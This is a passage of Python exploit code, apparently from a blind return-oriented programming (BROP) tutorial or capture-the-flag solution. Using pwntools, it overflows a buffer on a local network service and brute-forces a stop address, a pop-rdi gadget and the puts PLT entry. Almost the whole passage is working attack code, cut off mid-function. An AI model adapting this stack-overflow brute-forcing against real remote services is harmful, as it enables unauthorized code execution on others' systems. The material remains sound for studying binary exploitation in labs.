 ```python
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("stop address: 0x%x" % addr)
            return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

def get_gadgets_addr(buf_size, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("find address: 0x%x" % addr)
            try:    # check
                payload  = "A"*buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)

                p = remote('127.0.0.1', 10001)
                p.recvline()
                p.sendline(payload)
                p.recvline()
                p.close()
                log.info("bad address: 0x%x" % addr)
            except:
                p.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

def get_puts_plt(buf_size, stop_addr, gadgets_addr):
    pop_rdi = gadgets_addr + 9      # pop rdi; ret;
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1

        payload  = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(0x400000)
        payload += p64(addr)
        payload += p64(stop_addr)
        try:
```